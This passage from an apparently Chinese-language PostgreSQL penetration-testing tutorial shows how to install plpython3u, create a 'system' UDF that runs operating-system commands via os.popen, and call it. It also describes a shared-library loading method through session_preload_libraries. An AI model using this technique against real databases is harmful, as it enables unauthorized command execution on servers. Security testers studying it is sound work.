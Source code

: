 ![](../../img/postgresql-pentest/25.png)

有,那么直接装

```bash
apt install postgresql-plpython-14
```

安装完毕后记得注册下扩展

```sql
create extension plpython3u;
```

![](../../img/postgresql-pentest/26.png)

查看是否支持 plpython3u

```
select * from pg_language;
```

![](../../img/postgresql-pentest/27.png)

创建一个 UDF 来执行我们要执行的命令

```sql
CREATE FUNCTION system (a text)
  RETURNS text
AS $$
  import os
  return os.popen(a).read()
$$ LANGUAGE plpython3u;
```

![](../../img/postgresql-pentest/28.png)

创建好 UDF 后，进行调用
```sql
select system('ls -la');
```

![](../../img/postgresql-pentest/29.png)

## 利用 session_preload_libraries 加载共享库

方法来自于 https://www.yulegeyu.com/2020/11/16/Postgresql-Superuser-SQL%E6%B3%A8%E5%85%A5-RCE%E4%B9%8B%E6%97%85/ 这篇文章的场景

**描述**

session_preload_libraries 只允许 superuser 修改，但可以加载任意目录的库，session_preload_libraries 配置从 pg10 开始存在，低于 pg10 时，可以使用 local_preload_libraries，不过该配置只允许加载 $libdir/plugins/ 目录下的库，需要将库写入到该目录下。

当每次有新连接进来时，都会加载 session_preload_libraries 配置的共享库。

和上面的利用 UDF 命令执行一样，不过不同点在于上面一个是创建 function 加载,这个方式是通过改配置文件中的 session_preload_libraries 进行加载，这里就不复现了
